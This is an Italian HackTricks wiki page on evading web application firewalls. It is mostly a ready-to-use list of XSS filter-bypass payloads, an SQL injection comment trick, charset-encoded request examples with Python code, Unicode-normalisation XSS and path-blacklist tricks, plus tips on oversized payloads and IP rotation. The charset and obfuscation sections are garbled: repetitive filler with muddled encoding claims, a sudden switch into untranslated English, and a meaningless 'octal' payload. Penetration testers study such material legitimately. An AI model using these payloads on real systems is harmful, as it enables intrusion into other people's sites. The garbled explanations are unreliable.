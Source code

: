 # Bypass del WAF

<details>

<summary><strong>Impara l'hacking di AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT**](https://opensea.io/collection/the-peass-family) esclusivi
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Bypass Regex

Diverse tecniche possono essere utilizzate per bypassare i filtri regex sui firewall. Gli esempi includono l'alternanza delle maiuscole e minuscole, l'aggiunta di interruzioni di linea e la codifica dei payload. Le risorse per i vari bypass possono essere trovate su [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#filter-bypass-and-exotic-payloads) e [OWASP](https://cheatsheetseries.owasp.org/cheatsheets/XSS\_Filter\_Evasion\_Cheat\_Sheet.html). Gli esempi seguenti sono tratti da [questo articolo](https://medium.com/@allypetitt/5-ways-i-bypassed-your-web-application-firewall-waf-43852a43a1c2).
```bash
<sCrIpT>alert(XSS)</sCriPt> #changing the case of the tag
<<script>alert(XSS)</script> #prepending an additional "<"
<script>alert(XSS) // #removing the closing tag
<script>alert`XSS`</script> #using backticks instead of parenetheses
java%0ascript:alert(1) #using encoded newline characters
<iframe src=http://malicous.com < #double open angle brackets
<STYLE>.classname{background-image:url("javascript:alert(XSS)");}</STYLE> #uncommon tags
<img/src=1/onerror=alert(0)> #bypass space filter by using / where a space is expected
<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaaa href=javascript:alert(1)>xss</a> #extra characters
Function("ale"+"rt(1)")(); #using uncommon functions besides alert, console.log, and prompt
javascript:74163166147401571561541571411447514115414516216450615176 #octal encoding
<iframe src="javascript:alert(`xss`)"> #unicode encoding
/?id=1+un/**/ion+sel/**/ect+1,2,3-- #using comments in SQL query to break up statement
new Function`alt\`6\``; #using backticks instead of parentheses
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+ #base64 encoding the javascript
%26%2397;lert(1) #using HTML encoding
<a src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm(XSS)"> #Using Line Feed (LF) line breaks
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=confirm()> # use any chars that aren't letters, numbers, or encapsulation chars between event handler and equal sign (only works on Gecko engine)
```
## Codifica del Charset

La codifica del charset è un metodo utilizzato per rappresentare i caratteri di un set di caratteri specifico. Spesso, i firewall delle applicazioni web (WAF) utilizzano la codifica del charset come meccanismo di difesa per rilevare e bloccare attacchi. Tuttavia, è possibile aggirare questa protezione utilizzando alcune tecniche.

### 1. Codifica doppia

La codifica doppia è una tecnica che consiste nel codificare i caratteri speciali in modo da eludere la rilevazione del WAF. Ad esempio, il carattere "<" può essere codificato come "%3C" o "%253C" per evitare che il WAF lo rilevi come un tag HTML. In questo modo, è possibile inviare input dannosi senza essere bloccati dal WAF.

### 2. Codifica esadecimale

La codifica esadecimale è un'altra tecnica che può essere utilizzata per bypassare un WAF. In questa tecnica, i caratteri speciali vengono codificati utilizzando la notazione esadecimale. Ad esempio, il carattere "<" può essere codificato come "%3C" in notazione esadecimale. Questo rende difficile per il WAF rilevare e bloccare gli attacchi.

### 3. Codifica Unicode

La codifica Unicode è un metodo che consente di rappresentare i caratteri di qualsiasi set di caratteri. Questa tecnica può essere utilizzata per bypassare un WAF codificando i caratteri speciali in Unicode. Ad esempio, il carattere "<" può essere codificato come "%u003C" utilizzando la codifica Unicode. In questo modo, è possibile inviare input dannosi senza essere rilevati dal WAF.

### 4. Codifica URL

La codifica URL è una tecnica che consiste nel codificare i caratteri speciali utilizzando la notazione URL. Ad esempio, il carattere "<" può essere codificato come "%3C" utilizzando la codifica URL. Questo rende difficile per il WAF rilevare e bloccare gli attacchi.

### 5. Codifica HTML

La codifica HTML è una tecnica che consiste nel codificare i caratteri speciali utilizzando la notazione HTML. Ad esempio, il carattere "<" può essere codificato come "&lt;" utilizzando la codifica HTML. Questo rende difficile per il WAF rilevare e bloccare gli attacchi.

### 6. Codifica JavaScript

La codifica JavaScript è una tecnica che consiste nel codificare i caratteri speciali utilizzando la notazione JavaScript. Ad esempio, il carattere "<" può essere codificato come "\x3C" utilizzando la codifica JavaScript. Questo rende difficile per il WAF rilevare e bloccare gli attacchi.

### 7. Codifica Base64

La codifica Base64 è una tecnica che consiste nel codificare i dati in modo che possano essere rappresentati utilizzando un set di 64 caratteri. Questa tecnica può essere utilizzata per bypassare un WAF codificando i caratteri speciali in Base64. In questo modo, è possibile inviare input dannosi senza essere rilevati dal WAF.

### 8. Codifica di caratteri non ASCII

La codifica di caratteri non ASCII è una tecnica che consiste nel codificare i caratteri speciali utilizzando caratteri non ASCII. Ad esempio, il carattere "<" può essere codificato come "%c0%bc" utilizzando la codifica di caratteri non ASCII. Questo rende difficile per il WAF rilevare e bloccare gli attacchi.

### 9. Codifica di caratteri HTML speciali

La codifica di caratteri HTML speciali è una tecnica che consiste nel codificare i caratteri speciali utilizzando la notazione HTML. Ad esempio, il carattere "<" può essere codificato come "&lt;" utilizzando la codifica di caratteri HTML speciali. Questo rende difficile per il WAF rilevare e bloccare gli attacchi.

### 10. Codifica di caratteri URL speciali

La codifica di caratteri URL speciali è una tecnica che consiste nel codificare i caratteri speciali utilizzando la notazione URL. Ad esempio, il carattere "<" può essere codificato come "%3C" utilizzando la codifica di caratteri URL speciali. Questo rende difficile per il WAF rilevare e bloccare gli attacchi.
```bash
# Charset encoding
application/x-www-form-urlencoded;charset=ibm037
multipart/form-data; charset=ibm037,boundary=blah
multipart/form-data; boundary=blah; charset=ibm037

##Python code
import urllib
s = 'payload'
print(urllib.parse.quote_plus(s.encode("IBM037")))

## Request example
GET / HTTP/1.1
Host: buggy
Content-Type: application/x-www-form-urlencoded; charset=ibm500
Content-Length: 61

%86%89%93%85%95%81%94%85=KKaKKa%C6%D3%C1%C7K%A3%A7%A3&x=L%A7n
```
## Oscuramento

Obfuscation is a technique used to hide or disguise the true nature of code or data. In the context of web application security, obfuscation can be used to bypass Web Application Firewalls (WAFs) that are designed to detect and block malicious traffic.

### Techniques for Obfuscation

There are several techniques that can be used for obfuscation:

1. **Encoding**: This involves converting the code or data into a different format that is not easily recognizable. Common encoding techniques include Base64 encoding, URL encoding, and hexadecimal encoding.

2. **Encryption**: Encryption involves using an algorithm to convert the code or data into a form that can only be decrypted with a specific key. This can make it difficult for WAFs to analyze the code or data.

3. **Code obfuscation**: This technique involves modifying the code to make it more difficult to understand. This can include renaming variables and functions, adding unnecessary code, and using complex control flow structures.

4. **Dynamic code generation**: This technique involves generating code dynamically at runtime. By generating code on the fly, it can be more difficult for WAFs to analyze and block.

### Bypassing WAFs with Obfuscation

Obfuscation can be used to bypass WAFs by making the malicious code or data appear benign or non-malicious. By encoding or encrypting the code, it can be made more difficult for the WAF to detect and block.

Additionally, code obfuscation and dynamic code generation can be used to evade detection by WAFs that rely on static analysis techniques. By modifying the code or generating it dynamically, the malicious intent can be hidden from the WAF.

It is important to note that while obfuscation can be effective in bypassing WAFs, it is not foolproof. Advanced WAFs may employ sophisticated techniques to detect obfuscated code or data. Therefore, it is important to continually update and improve obfuscation techniques to stay ahead of WAF detection mechanisms.
```bash
# IIS, ASP Clasic
<%s%cr%u0131pt> == <script>

# Path blacklist bypass - Tomcat
/path1/path2/ == ;/path1;foo/path2;bar/;
```
## Compatibilità Unicode

A seconda dell'implementazione della normalizzazione Unicode (ulteriori informazioni [qui](https://jlajara.gitlab.io/Bypass\_WAF\_Unicode)), i caratteri che condividono la compatibilità Unicode potrebbero essere in grado di eludere il WAF ed eseguirsi come payload previsto. I caratteri compatibili possono essere trovati [qui](https://www.compart.com/en/unicode)

### Esempio
```bash
# under the NFKD normalization algorithm, the characters on the left translate
# to the XSS payload on the right
＜img src⁼p onerror⁼＇prompt⁽1⁾＇﹥  --> ＜img src=p onerror='prompt(1)'>
```
## Superare i limiti di dimensione

È comune nei WAF basati su cloud che se il payload è più grande di una certa dimensione X, la richiesta non verrà controllata dal WAF. Puoi semplicemente usarlo per eludere le protezioni.

### Rotazione degli IP

* [https://github.com/rootcathacking/catspin](https://github.com/rootcathacking/catspin)

<details>

<summary><strong>Impara l'hacking di AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF**, controlla i [**PACCHETTI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di esclusive [**NFT**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai repository di** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github.

</details>
